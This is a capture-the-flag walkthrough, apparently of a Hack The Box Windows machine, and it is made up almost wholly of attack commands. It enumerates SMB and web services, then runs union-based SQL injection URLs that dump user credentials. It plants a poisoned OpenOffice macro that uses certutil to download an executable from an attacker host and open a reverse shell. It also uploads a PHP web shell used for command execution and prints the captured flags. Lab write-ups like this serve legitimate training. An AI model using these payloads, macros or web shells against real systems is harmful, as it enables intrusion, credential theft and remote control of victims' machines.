 **Skills Required**
● Basic knowledge of web application
vulnerabilities and associated tools
● Basic Windows knowledge
**Skills Learned**
● Open Office macro modification
● Payload creation
● Authorisation bypass
● SQL injection identification and
exploitation
● Windows services and file system
permission enumeration

sqlinjection, macro ,Messaging Application, Administrator Request, Exploiting Requests, Poisoned Document, System Access, User Files, Root Directory, Write Permissions, PHP File, Command Execution, Downloading Files

**Step 1: Enumerate SMB Services**

If SMB is active, use CrackMapExec to determine the machine type:
```bash
crackmapexec smb 10.10.10.71
```

List shared network resources using smbmap:
```bash
smbmap -H 10.10.10.71 -u 'null'
```

**Step 2: Enumerate Open Ports**

In cases with multiple open ports, start by checking HTTP or HTTPS services. Use the following command to quickly gather information on HTTP services:
```bash
for port in $(cat lognmap | grep http | grep -oP '\d{1,5}/tcp' | awk '{print $1}' FS="/"); do echo -e "[+] Port $port info:\n"; timeout 5 bash -c "whatweb 10.10.10.71:$port"; done
```

**Step 3: Fuzzing for Directories**

After a quick check of HTTP services, focus on port 8080 and the HTTPS service. Perform directory fuzzing on `https://10.10.10.71` using wfuzz:

```bash
wfuzz -c --hc=404 -t 200 -w /usr/share/seclist/wordlist.txt https://10.10.10.71/FUZZ
```

**Step 4: Discovering Vulnerabilities**

While using wfuzz, you found the "exchange" directory, which redirects to a messaging application requiring a username and password. To discover vulnerabilities, also fuzz port 8080:

```bash
wfuzz -c --hc=404 -t 200 -w /usr/share/seclist/wordlist.txt http://10.10.10.71:8080/FUZZ
```

You found the "complain" directory, which is a Complain Management System with a login panel and registration option. Register and log in. Search for vulnerabilities using searchsploit and found SQL injection vulnerabilities.

**Step 5: Exploiting SQL Injection**

Exploit the SQL injection vulnerability with the following steps:

- Identify the vulnerable URL:
```bash
10.10.10.71:8080/complain/view.php?mod=admin&view=repod&id=plans'
```

- Enumerate columns:
```bash
10.10.10.71:8080/complain/view.php?mod=admin&view=repod&id=plans order by 100-- -
```

- Determine the number of columns (e.g., 5 columns):
```bash
10.10.10.71:8080/complain/view.php?mod=admin&view=repod&id=plans order by 5-- -
```

- Apply UNION SELECT to retrieve database name:
```bash
10.10.10.71:8080/complain/view.php?mod=admin&view=repod&id=plans union select 1,database(),3,4,5-- -
```

- Enumerate existing databases:
```bash
10.10.10.71:8080/complain/view.php?mod=admin&view=repod&id=plans union select 1,schema_name,3,4,5 from information_schema.schemata-- -
```

- Identify the "Secret" database and list its tables:
```bash
10.10.10.71:8080/complain/view.php?mod=admin&view=repod&id=plans union select 1,table_name,3,4,5 from information_schema.tables where table_schema=0x536563726574-- -
```

- Find the "Users" table and list its columns:
```bash
10.10.10.71:8080/complain/view.php?mod=admin&view=repod&id=plans union select 1,column_name,3,4,5 from information_schema.columns where table_schema=0x536563726574 and table_name=0x536563726574-- -
```

- Enumerate user credentials:
```bash
10.10.10.71:8080/complain/view.php?mod=admin&view=repod&id=plans union select 1,group_concat(Username,0x3a,Password),3,4,5 from Secret.Users-- -
```

**Step 6: Cracking Passwords**

The obtained credentials are in MD5. Crack these passwords using an MD5 hash cracking tool like CrackStation.

**Step 7: Gaining Access to the Messaging Application**

Use the cracked credentials to log in to the messaging application. Explore the emails and find a request from the administrator asking for a report.

**Step 8: Exploiting the Request**

Take advantage of the request to send a poisoned document:

```javascript
Sub OnLoad
	Shell("cmd /c certutil.exe -urlcache -split -f http://10.10.14.8/beacon.exe C:\Windows\Temp\beacon.exe && C:\Windows\Temp\beacon.exe -e cmd 10.10.14.8 1234")
End Sub
```

**Step 9: Gaining System Access**

Once you gain access, review user files and directories. Look for the "flag" file:

```bash
flag user c6f45142bea818fe729cef32342aae9c
```

If nothing interesting is found, navigate to the root directory to search for files or binaries to exploit. Discover "wamp64" and investigate it.

**Step 10: Exploiting Write Permissions**

Check if you can write content to the "www" directory within "wamp64" using `cacls www`. If you have write permissions, create a PHP file for command execution:

```php
<?php
  echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
?>
```

Download the `cmd.php` file on the victim machine:

```bash
certutil.exe -urlcache -split -f http://10.10.14.8/cmd.php cmd.php
```

Execute commands on the victim machine via the URL:

```bash
http://10.10.10.71:8080/cmd.php?cmd=whoami
```

Gain system access:

```bash
http://10.10.10.71:8080/cmd.php?cmd=C:\Windows\Temp\beacon.exe%20-e%20cmd%2010.10.14.8%2012345
```

**Step 11: Root Access**

Finally, obtain the root flag:

```bash
Root flag > 0b2ded66e5a49dd1620be30110f43d54
```

